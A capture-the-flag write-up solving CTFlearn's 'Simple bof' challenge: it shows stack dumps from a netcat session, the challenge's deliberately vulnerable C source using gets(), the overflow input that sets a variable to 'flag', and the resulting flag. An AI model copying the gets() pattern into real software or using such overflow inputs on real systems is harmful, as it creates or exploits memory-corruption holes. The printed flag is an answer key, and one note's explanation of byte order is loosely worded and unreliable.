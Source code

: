 # [Simple bof](https://ctflearn.com/challenge/1010) (10)
Let's skip the video for now and connect to the `netcat` server: <br />
```
$ nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xffee15a8 | 00 00 00 00 00 00 00 00 |
0xffee15b0 | 00 00 00 00 00 00 00 00 |
0xffee15b8 | 00 00 00 00 00 00 00 00 |
0xffee15c0 | 00 00 00 00 00 00 00 00 |
0xffee15c8 | ff ff ff ff ff ff ff ff |
0xffee15d0 | ff ff ff ff ff ff ff ff |
0xffee15d8 | ef be ad de 00 ff ff ff |
0xffee15e0 | c0 75 ed f7 84 9f 64 56 |
0xffee15e8 | f8 15 ee ff 11 7b 64 56 |
0xffee15f0 | 10 16 ee ff 00 00 00 00 |

Input some text: 

```
We are looking at some addresses in memory alongside their contents. <br />
Each row contains 8 bytes of hexadecimal data, with the leftmost column denoting the starting address for the leftmost byte. <br />

Let's try inputing a large string of `A`s (41) in hex: <br />
```
Input some text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xff9b1d58 | 41 41 41 41 41 41 41 41 |
0xff9b1d60 | 41 41 41 41 41 41 41 41 |
0xff9b1d68 | 41 41 41 41 41 41 41 41 |
0xff9b1d70 | 41 41 41 41 41 41 41 41 |
0xff9b1d78 | 41 41 41 41 41 41 41 41 |
0xff9b1d80 | 41 41 41 41 41 41 41 41 |
0xff9b1d88 | 41 41 00 de 00 ff ff ff |
0xff9b1d90 | c0 45 f1 f7 84 2f 60 56 |
0xff9b1d98 | a8 1d 9b ff 11 0b 60 56 |
0xff9b1da0 | c0 1d 9b ff 00 00 00 00 |

Wow you overflowed the secret value! Now try controlling the value of it!
```
We caused a buffer overflow which partially overwrote the `0xdeadbeef` value in memory. <br />
We know we have to change the value of this location to something specific, let's look at the C [file](https://ctflearn.com/challenge/download/1010) from the challenge text: <br />

```
$ bat bof.c

───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: bof.c
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #include <stdio.h>
   2   │ #include <stdlib.h>
   3   │ #include <string.h>
   4   │ #include <unistd.h>
   5   │ 
   6   │ // Defined in a separate source file for simplicity.
   7   │ void init_visualize(char* buff);
   8   │ void visualize(char* buff);
   9   │ void safeguard();
  10   │ 
  11   │ void print_flag();
  12   │ 
  13   │ void vuln() {
  14   │   char padding[16];
  15   │   char buff[32];
  16   │   int notsecret = 0xffffff00;
  17   │   int secret = 0xdeadbeef;
  18   │ 
  19   │   memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  20   │   memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.
  21   │ 
  22   │   // Initializes the stack visualization. Don't worry about it!
  23   │   init_visualize(buff); 
  24   │ 
  25   │   // Prints out the stack before modification
  26   │   visualize(buff);
  27   │ 
  28   │   printf("Input some text: ");
  29   │   gets(buff); // This is a vulnerable call!
  30   │ 
  31   │   // Prints out the stack after modification
  32   │   visualize(buff); 
  33   │ 
  34   │   // Check if secret has changed.
  35   │   if (secret == 0x67616c66) {
  36   │     puts("You did it! Congratuations!");
  37   │     print_flag(); // Print out the flag. You deserve it.
  38   │     return;
  39   │   } else if (notsecret != 0xffffff00) {
  40   │     puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  41   │   } else if (secret != 0xdeadbeef) {
  42   │     puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  43   │   } else {
  44   │     puts("Maybe you haven't overflowed enough characters? Try again?");
  45   │   }
  46   │ 
  47   │   exit(0);
  48   │ }
  49   │ 
  50   │ int main() {
  51   │   setbuf(stdout, NULL);
  52   │   setbuf(stdin, NULL);
  53   │   safeguard();
  54   │   vuln();
  55   │ }
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

From the source code, we know that we shouldn't overflow the `notsecret` section in memory, but need to change `0xdeadbeef` to `0x67616c66`. <br />
We can use `rax2` to determine the binary representation of `0x67, 0x61, 0x6c, 0x66`: <br />
```
$ rax2 -s 0x67616c66
galf
```

Let's overwrite the `0xdeadbeef` with `0x67616c66`: <br />
```
Input some text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xffc92808 | 41 41 41 41 41 41 41 41 |
0xffc92810 | 41 41 41 41 41 41 41 41 |
0xffc92818 | 41 41 41 41 41 41 41 41 |
0xffc92820 | 41 41 41 41 41 41 41 41 |
0xffc92828 | 41 41 41 41 41 41 41 41 |
0xffc92830 | 41 41 41 41 41 41 41 41 |
0xffc92838 | 66 6c 61 67 00 ff ff ff |
0xffc92840 | c0 65 f7 f7 84 5f 56 56 |
0xffc92848 | 58 28 c9 ff 11 3b 56 56 |
0xffc92850 | 70 28 c9 ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
```

Now we have our flag: `CTFlearn{buffer_0verflows_4re_c00l!}` <br />

**Notes**: <br />
*Apparently the stack doesn't HAVE to grow downwards, like I believed:* [stackoverflow](https://stackoverflow.com/questions/1677415/does-stack-grow-upward-or-downward). <br />

*There is a null terminator at the end of our input text, that's why* `0x00` *will always be at the end of our buffer overflow*. <br />

*Variables are stored in memory left-to-right, thats why* `0xdeadbeef` *is* `ef be ad de` *in memory.* <br />
